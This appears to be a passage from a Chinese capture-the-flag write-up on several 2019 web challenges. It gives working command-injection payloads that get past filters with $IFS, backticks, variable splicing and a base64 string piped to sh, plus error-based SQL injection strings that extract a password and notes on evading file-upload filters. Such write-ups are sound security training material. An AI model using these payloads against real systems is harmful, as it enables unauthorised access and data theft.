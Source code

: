 下载打开解压得到 flag

之后又想到一种方法

### 解法二：反引号执行

```bash
127.0.0.1;cat$IFS$9`ls`
```

在 wp 中看到的其它解法

### 解法三：变量拼接或base64编码读文件命令，管道符解码到输出bash执行

```bash
127.0.0.1;a=g;cat$IFS$1fla$a.php
127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

利用变量拼接或者 base64 绕过检测

## [极客大挑战 2019]LoveSQL（报错注入，长度限制）

简单 sql 注入

xpath 报错

```sql
123' and updatexml(1,concat(0x7e,(select password from l0ve1ysq1 where username='flag'),0x7e),1) #
```

有长度限制, 需要配合 substr

floor() + rand() 报错

```sql
123' union select count(*),2,concat(':',(select password from l0ve1ysq1 where username='flag'),':',floor(rand()*2))as a from information_schema.tables group by a #
```

这个没有长度限制

## [极客大挑战 2019]Knife（RCE）

简单命令执行

## [极客大挑战 2019]Http(XFF)

referer user-agent xff 头伪造

## [极客大挑战 2019]Upload（文件上传，<script language="php"绕过检测，phtml后缀绕过）

后缀为黑名单过滤, 同时检测了文件头和文件内容

文件内容不能包含 `<?`, 使用 script 标签绕过
